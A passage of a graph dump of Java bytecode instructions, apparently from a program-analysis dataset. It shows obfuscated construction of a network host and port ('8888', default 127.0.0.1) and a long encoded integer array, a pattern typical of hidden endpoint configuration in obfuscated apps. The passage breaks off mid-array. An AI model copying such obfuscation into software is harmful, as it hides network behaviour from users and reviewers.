    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"+\"";
    "push \"9\""
    "push \"+\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"E\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"E\"";
    "push \"0\""
    "push \"E\""->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"?i=6\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"?i=6\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"?i=6\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <a: java.lang.String host>";
    "staticput <a: java.lang.String host>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticput <a: java.lang.String s_port>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <a: java.lang.String s_port>";
    "staticput <a: java.lang.String s_port>"->"staticget <a: java.lang.String host>";
    "ifnonnull push null"
    "staticget <a: java.lang.String host>"->"ifnonnull push null";
    "push \"127.0.0.1\""
    "ifnonnull push null"->"push \"127.0.0.1\"";
    "push \"127.0.0.1\""->"staticput <a: java.lang.String host>";
    "push null"
    "staticput <a: java.lang.String host>"->"push null";
    "store.r $r17"
    "push null"->"store.r $r17";
    "push 290"
    "store.r $r17"->"push 290";
    "push 290"->"newarray";
    "store.r $r7"
    "newarray"->"store.r $r7";
    "load.r $r7"
    "store.r $r7"->"load.r $r7";
    "load.r $r7"->"push 0";
    "push 98"
    "push 0"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 1";
    "push 96"
    "push 1"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 2"
    "load.r $r7"->"push 2";
    "push 102"
    "push 2"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 3"
    "load.r $r7"->"push 3";
    "push 103"
    "push 3"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 4"
    "load.r $r7"->"push 4";
    "push 19"
    "push 4"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 5"
    "load.r $r7"->"push 5";
    "push 5"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 6"
    "load.r $r7"->"push 6";
    "push 6"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 7"
    "load.r $r7"->"push 7";
    "push 22"
    "push 7"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 8"
    "load.r $r7"->"push 8";
    "push 20"
    "push 8"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 9"
    "load.r $r7"->"push 9";
    "push 16"
    "push 9"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 10"
    "load.r $r7"->"push 10";
    "push 10"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 11"
    "load.r $r7"->"push 11";
    "push 17"
    "push 11"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 12"
    "load.r $r7"->"push 12";
    "push 12"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 13"
    "load.r $r7"->"push 13";
    "push 13"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 14"
    "load.r $r7"->"push 14";
    "push 18"
    "push 14"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 15"
    "load.r $r7"->"push 15";
    "push 26"
    "push 15"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 16";
    "push 21"
    "push 16"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 17";
    "push 17"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 18";
    "push 18"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 19";
    "push 19"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 20";
    "push 20"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 21";
    "push 21"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 22";
    "push 22"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 23"
    "load.r $r7"->"push 23";
    "push 23"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 24"
    "load.r $r7"->"push 24";
    "push 24"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 25"
    "load.r $r7"->"push 25";
    "push 25"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 26";
    "push 26"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 27"
    "load.r $r7"->"push 27";
    "push 27"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 28"
    "load.r $r7"->"push 28";
    "push 28"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 29"
    "load.r $r7"->"push 29";
    "push 29"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 30"
    "load.r $r7"->"push 30";
    "push 30"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 31"
    "load.r $r7"->"push 31";
    "push 31"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 32"
    "load.r $r7"->"push 32";
    "push 32"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 33"
    "load.r $r7"->"push 33";
    "push 33"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 34"
    "load.r $r7"->"push 34";
    "push 34"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 35"
    "load.r $r7"->"push 35";
    "push 35"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 36"
    "load.r $r7"->"push 36";
    "push 36"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 37"
    "load.r $r7"->"push 37";
    "push 37"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 38"
    "load.r $r7"->"push 38";
    "push 38"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 39"
    "load.r $r7"->"push 39";
    "push 39"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 40"
    "load.r $r7"->"push 40";
    "push 40"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 41"
    "load.r $r7"->"push 41";
    "push 41"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 42"
    "load.r $r7"->"push 42";
    "push 42"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 43"
    "load.r $r7"->"push 43";
    "push 43"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 44"
    "load.r $r7"->"push 44";
    "push 44"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 45"
    "load.r $r7"->"push 45";
    "push 45"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 46"
    "load.r $r7"->"push 46";
    "push 46"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 47"
    "load.r $r7"->"push 47";
    "push 47"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 48"
    "load.r $r7"->"push 48";
    "push 48"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 49"
    "load.r $r7"->"push 49";
    "push 49"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 50"
    "load.r $r7"->"push 50";
    "push 50"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 51"
    "load.r $r7"->"push 51";
    "push 51"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 52"
    "load.r $r7"->"push 52";
    "push 52"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 53"
    "load.r $r7"->"push 53";
    "push 53"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 54"
    "load.r $r7"->"push 54";
    "push 54"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 55"
    "load.r $r7"->"push 55";
    "push 101"
    "push 55"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 56"
    "load.r $r7"->"push 56";
    "push 56"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 57"
    "load.r $r7"->"push 57";
    "push 57"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 58"
    "load.r $r7"->"push 58";
    "push 58"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 59"
    "load.r $r7"->"push 59";
    "push 59"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 60"
    "load.r $r7"->"push 60";
    "push 60"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 61"
    "load.r $r7"->"push 61";
    "push 61"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 62"
    "load.r $r7"->"push 62";
    "push 62"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 63"
    "load.r $r7"->"push 63";
    "push 63"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 64"
    "load.r $r7"->"push 64";
    "push 64"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 65"
    "load.r $r7"->"push 65";
    "push 65"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 66";
    "push 66"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 67"
    "load.r $r7"->"push 67";
    "push 67"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 68"
    "load.r $r7"->"push 68";
    "push 97"
    "push 68"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 69"
    "load.r $r7"->"push 69";
    "push 69"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 70"
    "load.r $r7"->"push 70";
    "push 70"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 71"
    "load.r $r7"->"push 71";
    "push 71"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 72"
    "load.r $r7"->"push 72";
    "push 72"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 73"
    "load.r $r7"->"push 73";
    "push 73"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 74"
    "load.r $r7"->"push 74";
    "push 74"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 75"
    "load.r $r7"->"push 75";
    "push 75"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 76"
    "load.r $r7"->"push 76";
    "push 76"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 77"
    "load.r $r7"->"push 77";
    "push 77"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 78"
    "load.r $r7"->"push 78";
    "push 78"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 79"
    "load.r $r7"->"push 79";
    "push 79"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 80"
    "load.r $r7"->"push 80";
    "push 80"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 81"
    "load.r $r7"->"push 81";
    "push 81"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 82"
    "load.r $r7"->"push 82";
    "push 82"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 83"
    "load.r $r7"->"push 83";
    "push 83"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 84"
    "load.r $r7"->"push 84";
    "push 84"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 85"
    "load.r $r7"->"push 85";
    "push 85"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 86"
    "load.r $r7"->"push 86";
    "push 86"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 87"
    "load.r $r7"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 88"
    "load.r $r7"->"push 88";
    "push 88"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 89"
    "load.r $r7"->"push 89";
    "push 89"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 90"
    "load.r $r7"->"push 90";
    "push 90"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 91"
    "load.r $r7"->"push 91";
    "push 91"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 92"
    "load.r $r7"->"push 92";
    "push 92"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 93"
    "load.r $r7"->"push 93";
    "push 93"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 94"
    "load.r $r7"->"push 94";
    "push 94"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 95"
    "load.r $r7"->"push 95";
    "push 95"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 96";
    "push 96"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 97";
    "push 97"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 98";
    "push 98"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 99"
    "load.r $r7"->"push 99";
    "push 99"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 100"
    "load.r $r7"->"push 100";
    "push 100"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 101";
    "push 101"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 102";
    "push 102"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "load.r $r7"->"push 103";
    "push 103"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 104"
    "load.r $r7"->"push 104";
    "push 104"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 105"
    "load.r $r7"->"push 105";
    "push 105"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 106"
    "load.r $r7"->"push 106";
    "push 106"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 107"
    "load.r $r7"->"push 107";
    "push 107"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 108"
    "load.r $r7"->"push 108";
    "push 108"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 109"
    "load.r $r7"->"push 109";
    "push 109"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 110"
    "load.r $r7"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 111"
    "load.r $r7"->"push 111";
    "push 111"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 112"
    "load.r $r7"->"push 112";
    "push 112"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 113"
    "load.r $r7"->"push 113";
    "push 113"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 114"
    "load.r $r7"->"push 114";
    "push 114"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 115"
    "load.r $r7"->"push 115";
    "push 115"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 116"
    "load.r $r7"->"push 116";
    "push 116"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 117"
    "load.r $r7"->"push 117";
    "push 117"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 118"
    "load.r $r7"->"push 118";
    "push 118"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 119"
    "load.r $r7"->"push 119";
    "push 119"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 120"
    "load.r $r7"->"push 120";
    "push 120"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 121"
    "load.r $r7"->"push 121";
    "push 121"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 122"
    "load.r $r7"->"push 122";
    "push 122"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 123"
    "load.r $r7"->"push 123";
    "push 123"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 124"
    "load.r $r7"->"push 124";
    "push 124"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 125"
    "load.r $r7"->"push 125";
    "push 125"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 126"
    "load.r $r7"->"push 126";
    "push 126"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 127"
    "load.r $r7"->"push 127";
    "push 127"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 128"
    "load.r $r7"->"push 128";
    "push 128"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 129"
    "load.r $r7"->"push 129";
    "push 129"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 130"
    "load.r $r7"->"push 130";
    "push 130"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 131"
    "load.r $r7"->"push 131";
    "push 131"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 132"
    "load.r $r7"->"push 132";
    "push 132"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 133"
    "load.r $r7"->"push 133";
    "push 133"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 134"
    "load.r $r7"->"push 134";
    "push 134"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 135"
    "load.r $r7"->"push 135";
    "push 135"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 136"
    "load.r $r7"->"push 136";
    "push 136"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 137"
    "load.r $r7"->"push 137";
    "push 137"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 138"
    "load.r $r7"->"push 138";
    "push 138"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 139"
    "load.r $r7"->"push 139";
    "push 139"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 140"
    "load.r $r7"->"push 140";
    "push 140"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 141"
    "load.r $r7"->"push 141";
    "push 141"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 142"
    "load.r $r7"->"push 142";
    "push 142"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 143"
    "load.r $r7"->"push 143";
    "push 143"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 144"
    "load.r $r7"->"push 144";
    "push 144"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 145"
    "load.r $r7"->"push 145";
    "push 145"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 146"
    "load.r $r7"->"push 146";
    "push 146"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 147"
    "load.r $r7"->"push 147";
    "push 147"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 148"
    "load.r $r7"->"push 148";
    "push 148"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 149"
    "load.r $r7"->"push 149";
    "push 149"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 150"
    "load.r $r7"->"push 150";
    "push 150"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 151"
    "load.r $r7"->"push 151";
    "push 151"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 152"
    "load.r $r7"->"push 152";
    "push 152"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 153"
    "load.r $r7"->"push 153";
    "push 153"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 154"
    "load.r $r7"->"push 154";
    "push 154"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 155"
    "load.r $r7"->"push 155";
    "push 155"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 156"
    "load.r $r7"->"push 156";
    "push 156"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 157"
    "load.r $r7"->"push 157";
    "push 157"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 158"
    "load.r $r7"->"push 158";
    "push 158"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 159"
    "load.r $r7"->"push 159";
    "push 159"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 160"
    "load.r $r7"->"push 160";
    "push 160"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 161"
    "load.r $r7"->"push 161";
    "push 161"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 162"
    "load.r $r7"->"push 162";
    "push 162"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 163"
    "load.r $r7"->"push 163";
    "push 163"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 164"
    "load.r $r7"->"push 164";
    "push 164"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 165"
    "load.r $r7"->"push 165";
    "push 165"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 166"
    "load.r $r7"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 167"
    "load.r $r7"->"push 167";
    "push 167"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 168"
    "load.r $r7"->"push 168";
    "push 168"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 169"
    "load.r $r7"->"push 169";
    "push 169"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 170"
    "load.r $r7"->"push 170";
    "push 170"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 171"
    "load.r $r7"->"push 171";
    "push 171"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 172"
    "load.r $r7"->"push 172";
    "push 172"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 173"
    "load.r $r7"->"push 173";
    "push 173"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 174"
    "load.r $r7"->"push 174";
    "push 174"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 175"
    "load.r $r7"->"push 175";
    "push 175"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 176"
    "load.r $r7"->"push 176";
    "push 176"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 177"
    "load.r $r7"->"push 177";
    "push 177"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 178"
    "load.r $r7"->"push 178";
    "push 178"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 179"
    "load.r $r7"->"push 179";
    "push 179"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r7";
    "push 180"
    "load.r $r7"->"push 180";
    "push 180"->"push 20";
